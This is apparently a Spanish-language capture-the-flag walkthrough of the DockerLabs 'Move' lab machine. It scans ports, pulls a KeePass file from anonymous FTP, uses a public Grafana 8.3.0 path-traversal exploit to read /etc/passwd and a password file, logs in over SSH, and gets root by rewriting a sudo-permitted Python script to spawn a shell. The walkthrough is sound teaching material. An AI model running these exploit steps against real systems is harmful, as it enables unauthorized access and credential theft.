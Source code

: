 # Máquina Move

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE REASON
21/tcp   open  ftp     syn-ack
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3000/tcp open  ppp     syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    1 0        0              26 Mar 29 09:28 mantenimiento [NSE: writeable]
22/tcp   open  ssh     OpenSSH 9.6p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|   256 770b3436870d386458c06f4ecd7a3a99 (ECDSA)
|_  256 1ec6b291563250a50345f3f732ca7bd6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.58 (Debian)
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
```

El usuario **anonymous** está disponible en el servicio **ftp**, le echamos un vistazo.

```shell
ftp 172.17.0.2
-> anonymous
```

Vemos un directorio y dentro un archivo, asi que lo descargamos:

```shell
cd mantenimiento
get database.kdbx
```

Lo tratamos de abrir con **keepass2** pero tiene contraseña, por lo que trataremos de crackearla con **john**:

```shell
keepass2john database.kdbx
---------------------------------
! database.kdbx : File version '40000' is currently not supported!
```

Nos da error por la versión del archivo así que de momento pasaremos a inspeccionar otras vías.

Inspeccionamos la web del puerto 80, y encontramos la página por defecto de Apache.
Aplicamos **Fuzzing** sobre ella:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x txt,php,html
```

Accedemos al archivo **maintenance.html** que hemos encontrado:

![Pasted image 20240428003510](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f8a13e47-b465-4d7d-b4fd-f7012ba93901)

Le echamos un vistazo a la web que corre por el puerto 3000:

![Pasted image 20240428003758](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1408ccac-184b-4aa6-bd31-6d885360a9cd)

```shell
whatweb http://172.17.0.2:3000/
------------------------------------------------------------------------------
http://172.17.0.2:3000/login [200 OK] Country[RESERVED][ZZ], Grafana[8.3.0], HTML5, IP[172.17.0.2], Script, Title[Grafana], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block]
```

--------------
## Explotación

Vemos que está utilizando **Grafana[8.3.0]**, con su versión. Podemos buscar algún exploit que podamos utilizar:

```shell
searchsploit Grafana
-----------------------------------------------
Grafana 7.0.1 - Denial of Service (PoC)
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                               multiple/webapps/50581.py
```

Vemos que hay uno justo para la versión correspondiente. Nos lo descargamos:

```shell
searchsploit -m multiple/webapps/50581.py
python3 50581.py -H http://172.17.0.2:3000
-> /etc/passwd
----------------------------------------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:104:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
grafana:x:103:105::/usr/share/grafana:/bin/false
freddy:x:1000:1000::/home/freddy:/bin/bash
```

Vemos un información interesante como un usuario **freddy**.
Leemos también el archivo que ponía en la web:

```shell
python3 50581.py -H http://172.17.0.2:3000
-> /tmp/pass.txt
-----------------------
t9sH76gpQ82UFeZ3GXZS
```

Usamos el usuario freddy y la contraseña obtenida para acceder por **ssh** -> **freddy:t9sH76gpQ82UFeZ3GXZS**

```ssh
ssh freddy@172.17.0.2
```

Estamos dentro !

------------
## Escalada de privilegios

Ejecutamos **sudo -l**, para ver si podemos ejecutar algo como root.

```shell
sudo -l
-----------------------
User freddy may run the following commands on 19cbc2280d8b:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```

Vemos que **/opt/maintenance.py** pertenece a freddy de forma que podemos cambiarlo y escribir en él.
El nuevo contenido del script **maintenance.py** será:

```python
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```

Lo ejecutamos:

```shell
sudo /usr/bin/python3 /opt/maintenance.py
```

```shell
whoami
----------------
root
```

Hemos conseguido el nivel de privilegios máximos en la máquina !
